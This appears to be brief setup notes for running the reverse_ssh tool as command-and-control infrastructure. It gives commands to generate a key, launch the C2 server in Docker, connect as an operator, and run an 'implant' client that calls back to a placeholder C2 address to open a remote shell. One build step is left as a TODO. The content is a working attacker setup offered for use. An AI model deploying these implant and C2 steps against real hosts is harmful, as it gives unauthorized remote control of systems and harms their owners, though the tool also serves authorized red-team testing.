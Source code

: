 # Setup

## Generate SSH Key

```
$ ssh-keygen -qt rsa -b 4096 -f id_rsa -C '' -N ''
```

## Server

### Docker Setup

```
$ docker run -p 3232:2222 -e EXTERNAL_ADDRESS=<C2_IP>:3232 -e SEED_AUTHORIZED_KEYS="$(cat ~/.ssh/id_ed25519.pub)" -v ./data:/data reversessh/reverse_ssh
```

### Compile From Source

TODO: Fill in this info

```
$ git clone https://github.com/NHAS/reverse_ssh.git

$ server
```

## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Implant

```
> client -d <C2_IP>:3232
```

---
## References

- [Reverse SSH](https://github.com/NHAS/reverse_ssh)